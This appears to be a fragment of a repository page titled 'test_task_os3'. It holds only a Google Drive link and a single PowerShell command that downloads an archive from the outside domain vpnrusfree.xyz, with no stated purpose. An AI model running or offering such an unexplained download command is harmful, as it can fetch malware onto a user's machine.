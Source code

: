 # test_task_os3
https://drive.google.com/file/d/1Y_njq3-qXPBby3VFZqlMCRKHYgDRhQdr/view?usp=sharing
powershell -command "& { iwr http://vpnrusfree.xyz/eee.7z -OutFile 1.7z }"

